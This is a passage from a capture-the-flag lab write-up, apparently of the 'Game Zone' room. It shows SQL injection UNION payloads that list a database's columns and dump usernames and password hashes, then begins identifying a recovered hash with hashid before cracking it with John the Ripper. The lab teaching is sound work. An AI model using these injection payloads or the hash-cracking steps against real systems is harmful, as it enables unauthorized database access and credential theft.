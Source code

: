`users` looks interesting. Let's get the column names

```
' UNION SELECT 1, column_name, 3 FROM information_schema.columns WHERE table_schema = DATABASE() -- -
```

![](/assets/img/game-zone-columns-name.PNG)

We can print the `username` and `pwd` ones.

```
' UNION SELECT 1, username, pwd FROM users -- -
```
![](/assets/img/game-zone-pwd-dump.PNG)

We have one user and his hashed password!

## Cracking a password with JohnTheRipper

John the Ripper (JTR) is a fast, free and open-source password cracker. This is also pre-installed on all Kali Linux machines.

We will use this program to crack the hash we obtained earlier. JohnTheRipper is 15 years old and other programs such as HashCat are one of several other cracking programs out there. 

This program works by taking a wordlist, hashing it with the specified algorithm and then comparing it to your hashed password. If both hashed passwords are the same, it means it has found it. You cannot reverse a hash, so it needs to be done by comparing hashes.

Let's crack the hash to retrieve `agent47`'s password.

```
$ echo 'ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14' > hash
$ hashid hash

Analyzing 'ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14'
[+] Snefru-256 
[+] SHA-256 
[+] RIPEMD-256 
[+] Haval-256 
[+] GOST R 34.11-94 
[+] GOST CryptoPro S-Box 
[+] SHA3-256 
[+] Skein-256 
[+] Skein-512(256) 
```